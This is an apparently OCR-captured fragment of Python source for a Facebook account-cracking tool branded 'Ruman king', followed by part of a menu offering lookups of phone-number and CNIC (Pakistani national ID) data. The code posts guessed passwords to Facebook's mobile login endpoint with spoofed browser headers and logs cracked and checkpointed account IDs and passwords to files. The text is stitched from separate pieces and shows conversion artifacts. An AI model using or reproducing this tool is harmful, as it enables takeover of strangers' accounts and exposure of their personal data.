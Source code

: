 			'method': 'GET',
			'scheme': 'https',
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'accept-language': 'en-PK,en-GB,en-US;q=0.9,en;q=0.8,en;q=0.7', 
			'dnt':'1', 
			'x-requested-with':'mark.via.gp', 
			'sec-fetch-site': 'none',
			'sec-fetch-mode': 'navigate',
			'sec-fetch-user': '?1',
			'sec-fetch-dest': 'document',
			'accept-encoding':'gzip, deflate, br','accept-language': 'en-US,en;q=0.9',
			'cache-control': 'max-age=0',
			'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="105", "Google Chrome";v="105"',
			'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Windows"',
			"sec-ch-prefers-color-scheme": "light",
			'user-agent': ua}
			lo = session.post('https://p.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
			log_cookies=session.cookies.get_dict().keys()
			#print(iid+'|'+pws+'|'+str(log_cookies))
			if 'c_user' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[151:166]
				print('\033[1;92m[Ruman king-ðŸ‘‘--OK] '+cid+' | '+ps+'\033[1;32m')
				open('Ruman king-ðŸ‘‘--OK.txt', 'a').write(cid+' | '+ps+'\n')
				oks.append(cid)
				break
			elif 'checkpoint' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[141:156]
				print('\33[1;31m[Ruman king-ðŸ‘‘--CP] '+cid+' | '+ps+'\33[0;97m')
				open('Ruman king-ðŸ‘‘--CP.txt', 'a').write(cid+' | '+ps+'\n')
				cps.append(cid)
				break
			else:
				continue
		loop+=1
	except:
		pass
#
try:
    import os,requests,re
    from bs4 import BeautifulSoup
    from bs4 import BeautifulSoup as parser
except ModuleNotFoundError:
    print('\n installing modules ...')
    os.system('pip install requests bs4 > /dev/null')
def main():
        os.system("clear")
        print(logo)
        linex()
        print('[1] Get any number data')
        print('[2] Get CNIC number data')
        print('[3] Go to main menu')
        linex()
        xd = input(' Choose : ')
        if xd =='1':
            zong()
        elif xd =='2':
            cinc()
        elif xd =='3':
            rifat()